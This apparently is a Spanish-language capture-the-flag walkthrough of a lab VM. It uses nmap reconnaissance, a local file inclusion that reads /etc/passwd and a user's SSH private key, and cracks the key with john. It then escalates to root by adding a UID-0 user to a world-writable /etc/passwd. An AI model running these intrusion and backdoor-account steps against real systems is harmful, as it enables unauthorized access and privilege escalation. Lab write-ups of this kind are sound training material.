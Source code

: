 ## Reconocimiento
Procedimiento rutinario con nmap.
``` bash
nmap -p- -sS -sCV --min-rate 5000 -n -Pn 192.168.0.108 > scan
```

![](_anexos_/Screenshot%20from%202023-12-23%2021-38-52.png)
- SSH en el puerto 22. En su versión 7.9 que no tiene alguna vulnerabilidad grave.
- Un pagina montada con apache en el puerto 80.
- Se realizaron pruebas de fuzzing con `gobuster` pero no se encontro nada relevante

Accedemos a la pagina en cuestión
![](_anexos_/Screenshot%20from%202023-12-23%2021-41-28.png)
Si accedemos al `modo inspeccionar` y filtramos por `php` o `?`. Podemos ver que tenemos una url interesante.
![](_anexos_/Screenshot%20from%202023-12-23%2021-45-59.png)

## Local File Inclusion (LFI)
Si cambiamos `Doctors.html` por `/etc/passwd` podemos ver que nos lista el fichero. 

![](_anexos_/Screenshot%20from%202023-12-23%2021-50-04.png)
- Tenemos tres usuarios al parecer
	- root
	- admin
	- www-data

Buscamos el `id_rsa` del usuario `admin`

![](_anexos_/Screenshot%20from%202023-12-23%2021-51-56.png)

Usamos [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)para convertir el `id_rsa` en un hash que podemos intentar crackear con [john](https://github.com/openwall/john).
``` bash
./ssh2john.ph id_rsa > id_rsa.txt

# ejecutamos john
john id_rsa.txt --wordlist=/usr/share/dict/rockyou.txt
```

![](_anexos_/Screenshot%20from%202023-12-23%2023-57-33.png)

Nos conectamos por ssh con el usuario `admin`, haciendo uso del `id_rsa` y la contraseña `unicorn`.
``` bash
ssh -i id_rsa admin@192.168.0.108
```
![](_anexos_/Screenshot%20from%202023-12-24%2000-01-57.png)

## Privsec
Algunas consideraciones al tratar de buscar alguna vulnerabilidad...
- No tenemos _sudo_ instalado, por ende no podemos usar `sudo -l`
- Si bien se ejecuta un versión 4.19 del kernel que tiene algunas vulnerabilidades. No reunimos con los requisitos necesarios para explotarlos.
- A nivel de SUID, ejecutando `find / -perm -4000 2>/dev/null` no encontramos algun ejecutable que nos permita realizar privesc. 

El paso necesario para poder escalar privilegios es la de ver en que archivos tenemos permisos de escritura, en este caso estamos buscando en todos los directorios excepto `var, proc, sys o home` directorios.

``` bash
$ find / -writable -type f 2>/dev/null | grep -viE "var|proc|sys|home"
/etc/passwd
```

Como podemos ver en este [artículo](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd) de HackTricks, podemos abusar del permiso de escritura sobre el archivo que esta en `/etc/passwd`.
``` bash
openssl passwd -1 -salt hacker hacker

# Otras opciones disponibles
mkpasswd -m SHA-512 hacker
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

``` bash 
# Despues agregamos el usuario hacker junto con la contraseñá generada en /etc/passwd
...
hacker:<GENERATED_PASSWORD_HERE>:0:0:Hacker:/root:/bin/bash
...
```
Ingresamos como root a traves del usuario `hacker` con su contraseña `hacker`
``` bash
su hacker
```

![](_anexos_/Screenshot%20from%202023-12-24%2001-43-10.png)

Eso es todo.

